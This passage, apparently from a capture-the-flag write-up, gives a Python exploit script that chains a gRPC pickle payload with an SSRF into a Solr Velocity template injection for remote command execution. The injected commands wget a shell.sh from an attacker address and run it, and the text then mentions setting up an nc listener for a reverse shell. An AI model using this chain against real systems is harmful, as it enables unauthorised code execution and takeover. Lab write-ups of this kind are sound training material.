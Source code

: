 

And:



    import pickle
    import sys
    import feedengine_pb2
    import feedengine_pb2_grpc
    from urllib.parse import quote


    grpc_payload = """{{
        "version": "v1.0",
        "title": "Printer Feed",
        "home_page_url": "",
        "feed_url": "{url}",
        "items": [
            {{
                "id": "2",
                "content_text": "Queue jobs"
            }},
            {{
                "id": "1",
                "content_text": "Failed items"
            }}
        ]
    }}"""

    host = "10.10.14.9"
    host = "localhost"
    fn = '/tmp/0xdf.sh'
    cmds = [f'wget http://10.10.14.9/shell.sh -O {fn}',
            f'chmod +x {fn}',
            f'{fn}']

    channel = grpc.insecure_channel('10.10.10.201:9000')
    stub = feedengine_pb2_grpc.PrintStub(channel)

    for cmd in cmds:
        http2 = f"http://{host}:8983/solr/staging/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+        %23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27{quote(cmd)}%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
        payload_ser = base64.b64encode(pickle.dumps(grpc_payload.format(url=http2)))
        content = feedengine_pb2.Content(data=payload_ser)
        response = stub.Feed(content)
        print(response)



I can start both a `nc` listener on 443 and a Python webserver on 80
serving my `shell.sh`:


